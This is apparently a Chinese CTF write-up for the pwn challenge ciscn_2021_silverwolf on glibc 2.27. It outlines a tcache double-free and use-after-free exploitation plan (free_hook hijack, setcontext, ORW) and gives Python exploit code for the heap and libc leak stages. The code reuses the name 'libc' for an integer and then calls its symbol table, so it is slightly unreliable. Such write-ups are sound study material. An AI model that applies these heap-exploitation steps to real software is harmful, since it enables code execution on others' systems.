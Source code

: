 0x06 题目练习
=========

题目：ciscn\_2021\_silverwolf

环境：ubuntu18.04

glibc版本：Ubuntu GLIBC 2.27-3ubuntu1.3

例行检查
----

64位全绿

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-2f2a653a418cfded59ab752a2642daa2cb6ad62b.png)

这个版本没有doublefree的检测，增查删改，有uaf

利用思路
----

利用df泄露heap地址，再利用df将堆块申请到控制head，将其分配至unsortedbin中，然后show泄露libc地址。之后修改tcache的堆指针劫持freehook，还有其他大小堆块布置好相应堆块，利用setcontext进行调用执行orw

leak\_heap\_libc
----------------

这两个都是源自于lonlywolf的利用方式，这里放出过程

```python
###############leak_heap
add(0x30)
delete()
edit("a"*0x10)
delete()
show()
heap = u64(ru("\n").ljust(8, b"\x00"))
heap_base = heap-0x1920
print("heap base: ", hex(heap_base))
#########hijack_tcache_head
head = heap_base+0x10
add(0x30)
edit(p64(head))
add(0x30)
add(0x30)
#############leak_libc
str = p64(0)*4+p64(0x00000000ff000000)
edit(str)
delete()
show()
libc = u64(ru("\n").ljust(8, b"\x00"))
libc_base = libc-0x70-libc.sym["__malloc_hook"]
setcontext = libc_base+libc.sym["setcontext"]+53
free_hook = libc_base+libc.sym["__free_hook"]
print("libc base: ", hex(libc_base))
print("setcontext_53: ", hex(setcontext))
print("free_hook: ", hex(free_hook))
```
